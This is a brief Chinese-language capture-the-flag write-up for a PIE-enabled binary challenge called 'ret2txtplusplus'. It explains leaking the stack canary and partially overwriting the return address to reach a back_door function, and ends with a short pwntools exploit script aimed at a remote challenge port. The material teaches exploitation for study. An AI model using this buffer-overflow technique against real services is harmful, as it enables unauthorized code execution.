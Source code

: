 # ret2txtplusplus

## 文件分析

下载`ret2txtpp`, 保护全开  
ghidra分析为64位程序

## 解题思路

总体思路和上一题一致，但是加了pie，但我们又没法获取  
不过这次在vuln函数中运行，那么只要改掉最后2个字节就可以跳转到`back_door`（本来是跳转到main）  
~~如果rsp & 0xf != 0就没辙了~~

注意最后不能用sendline，因为会多填充一个\n导致地址错误  
查看pwntools源码，发现send后会flush，也可以结束读取

## EXPLOIT

```python
from pwn import *
sh = remote(???, 10015)
sh.sendline(b'0'*0x17 + b'.')
sh.recvuntil(b'.\n')
canary = u64(b'\0' + sh.recvline()[:7])
sh.send(b'0'*0x18 + p64(canary) + b'0'*8 + p16(0x08f4))
sh.interactive()
```

Done.

